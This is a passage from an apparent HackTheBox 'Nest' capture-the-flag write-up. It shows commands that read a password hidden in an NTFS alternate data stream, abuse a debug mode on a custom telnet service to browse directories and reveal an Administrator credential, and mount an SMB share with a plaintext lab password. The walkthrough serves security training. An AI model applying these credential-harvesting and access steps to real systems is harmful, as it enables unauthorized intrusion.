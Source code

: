 ```bash
# stream: [:Password:$DATA], 15 bytes
  get "Debug Mode Password.txt:Password:$DATA"

cat Debug\ Mode\ Password.txt:Password:\$DATA

telnet 10.10.10.178 4386
  DEBUG W...w
  HELP
```

<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_47.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_48.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_49.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nest_writeup/Nest_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I investigate the new commands to which I have access now and I can leak information from the **HQK Reporting Server** service, but the most interesting thing is that if I access the previous directory of the current one I find some other very interesting ones, such as **LDAP** or even **Logs**. I enumerate the first one and I find an executable file and its configuration file, I take advantage that I have setup the mount to access them and download them on my attacking machine. The executable is compatible for **Windows** and has a **32bit** architecture.

```bash
telnet 10.10.10.178 4386
  HELP SERVICE
  SERVICE
  HELP SESSION
  SESSION
  HELP SHOWQUERY
  SHOWQUERY 1
  SHOWQUERY 2
  SHOWQUERY 3
  HELP
  SETDIR ..
# Current directory set to HQK
  LIST
# LDAP
  SETDIR LDAP
  LIST
# HqkLdap.exe, Ldap.conf
  SHOWQUERY 2
# User=Administrator
# Password=yyE....

mount -t cifs //10.10.10.178/Users /mnt/SMBNest -o username=c.smith,password=xRxRxPANCAK3SxRxRx,domain=WORKGROUP,rw
cd /mnt/SMBNest/C.Smith/HQK\ Reporting/AD\ Integration\ Module
cp ./HqkLdap.exe /home/al3j0/Documents/HackTheBox/Windows/Nest/content
umount /mnt/SMBNest

file HqkLdap.exe
```
